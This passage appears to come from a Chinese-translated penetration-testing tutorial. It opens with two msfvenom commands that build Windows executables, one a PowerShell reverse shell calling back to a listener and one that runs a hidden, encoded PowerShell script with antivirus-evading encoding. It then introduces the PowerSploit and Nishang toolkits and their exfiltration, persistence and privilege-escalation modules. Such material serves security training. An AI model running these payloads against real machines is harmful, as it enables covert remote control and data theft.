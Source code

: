 ```
>msfvenom    -p    windows/powershell_reverse_tcp LHOST=192.168.1.39    LPORT=4444    -f    exe    >    evilPS.exe >msfvenom  -p     windows/exec     CMD=“powershell     -ep     bypass     -W     Hidden     -enc   [Powershell script Here]”    -f    exe    -e    x86/shikata_ga_nai    -o   /root/home/ghost/Desktop/power.exe
```

# 动力普洛伊特

PowerSploit 是一组令人惊叹的 PowerShell 脚本，供信息安全专业人员，尤其是渗透测试人员使用。要下载 PowerSploit，您需要从其官方 GitHub 存储库[中获取它 https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) ：

```
# git clone https://github.com/PowerShellMafia/PowerSploit 
```

克隆项目后，使用`ls`命令列出文件：

从以下屏幕截图中，您可以注意到 PowerSploit 包含许多用于执行许多任务的精彩脚本，例如：

*   `AntivirusBypass`
*   `Exfiltration`
*   ``Persistence``
*   `PowerSploit`
*   `PowerUp`
*   `PowerView`

![](../images/00229.jpeg)

# Nishang–用于渗透测试的 PowerShell

Nishang 是一个巨大的工具集合，用于在所有渗透测试阶段执行许多任务。您可以从[获取 https://github.com/samratashok/nishang](https://github.com/samratashok/nishang) ：

```
# git clone https://github.com/samratashok/nishang
```

从下载的项目列表中可以看出，Nishang 加载了许多不同的脚本和实用程序，用于在渗透测试任务期间执行许多必需的任务，例如：

*   **权限提升**
*   **扫描**
*   **旋转**

您可以通过使用`ls`命令列出霓裳项目的内容来浏览所有可用的脚本：

![](../images/00230.gif)

让我们探讨一下 Nishang 在 Windows 计算机上的脚本功能：

![](../images/00231.jpeg)

您可以使用`Import-Module`PowerShell cmdlet 导入所有模块：

![](../images/00232.jpeg)
